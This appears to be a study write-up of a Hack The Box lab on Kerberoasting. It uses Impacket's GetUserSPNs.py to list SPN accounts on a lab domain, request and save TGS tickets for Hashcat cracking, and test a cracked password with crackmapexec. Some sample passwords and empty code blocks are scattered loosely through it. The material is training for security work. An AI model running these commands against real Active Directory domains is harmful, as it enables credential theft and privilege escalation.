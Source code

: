 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Kerberoasting Overview](#Kerberoasting\Overview)
- [Performing The Kerberoasting attack](#performing\the\kerberoasting\attack)
      - [Installing Impacket using Pip](#Installing\Impacket\using\Pip)
      - [Listing GetUserSPNs.py Help Options](#Listing\GetUserSPNs.py\Help\Options)
      - [Listing SPN Accounts with GetUserSPNs.py](#Listing\SPN\Accounts\with\GetUserSPNs.py)
      - [Requesting all TGS Tickets](#Requesting\all\TGS\Tickets)
      - [Requesting a Single TGS ticket](#Requesting\a\Single\TGS\ticket)
      - [Saving the TGS Ticket to an Output File](#Saving\the\TGS\Ticket\to\an\Output\File)
      - [Testing Authentication against a Domain Controller](#Testing\Authentication\against\a\Domain\Controller)



Our enumeration up to this point has given us a broad picture of the domain and potential issues. We have enumerated user accounts and can see that some are configured with Service Principal Names. Let's see how we can leverage this to move laterally and escalate privileges in the target domain.

## Kerberoasting Overview

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. - **What It Is**: Kerberoasting is a technique used for lateral movement or privilege escalation in Active Directory (AD) environments.
    
- **Target**: Focuses on Service Principal Names (SPNs), which are unique identifiers for service instances in AD.
    
- **Why SPNs**: Service accounts running these SPNs often have elevated privileges, making them attractive targets.
    
- **Access Needed**: Minimal access is required to perform the attack—just a domain user account or SYSTEM level access on a domain-joined host.
    
- **How It Works**:
    
    1. Any domain user can request a Kerberos ticket for any SPN.
    2. The Kerberos ticket is encrypted with the service account's NTLM hash.
- **Attack Vector**:
    
    1. Retrieve the encrypted Kerberos ticket.
    2. Subject it to an offline brute-force attack to potentially obtain the cleartext password.
- **Tools**: Tools like Hashcat can be used for the brute-force attack.
    
- **Risks**:
    
    1. Service accounts are often local administrators or part of highly privileged domain groups.
    2. Can be used across forest trusts, increasing the attack surface.



# Performing The Kerberoasting attack
Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.

Several tools can be utilized to perform the attack:

- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

#### Installing Impacket using Pip

  Installing Impacket using Pip

```shell
gdxqpardo@htb[/htb]$ sudo python3 -m pip install .
```


#### Listing GetUserSPNs.py Help Options

  Listing GetUserSPNs.py Help Options

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -h
```


We can start by just gathering a listing of SPNs in the domain. To do this, we will need a set of valid domain credentials and the IP address of a Domain Controller. We can authenticate to the Domain Controller with a cleartext password, NT password hash, or even a Kerberos ticket. For our purposes, we will use a password. Entering the below command will generate a credential prompt and then a nicely formatted listing of all SPN accounts. From the output below, we can see that several accounts are members of the Domain Admins group. If we can retrieve and crack one of these tickets, it could lead to domain compromise. It is always worth investigating the group membership of all accounts because we may find an account with an easy-to-crack ticket that can help us further our goal of moving laterally/vertically in the target domain.

#### Listing SPN Accounts with GetUserSPNs.py

  Listing SPN Accounts with GetUserSPNs.py

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

```

We can now pull all TGS tickets for offline processing using the `-request` flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts.

#### Requesting all TGS Tickets

  Requesting all TGS Tickets

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

```

```shell-session
HTB_@cademy_stdnt!
```

```shell-session
Academy_student_AD!
```
Welcome2021
Spring@18
We can also be more targeted and request just the TGS ticket for a specific account. Let's try requesting one for just the `sqldev` account.
#### Requesting a Single TGS ticket

  Requesting a Single TGS ticket

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev

```

To facilitate offline cracking, it is always good to use the `-outputfile` flag to write the TGS tickets to a file that can then be run using Hashcat on our attack system or moved to a GPU cracking

#### Saving the TGS Ticket to an Output File

  Saving the TGS Ticket to an Output File

```shell-session
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs

```

Here we've written the TGS ticket for the `sqldev` user to a file named `sqldev_tgs`. Now we can attempt to crack the ticket offline using Hashcat hash mode `13100`.



#### Testing Authentication against a Domain Controller

  Testing Authentication against a Domain Controller

```shell
gdxqpardo@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```







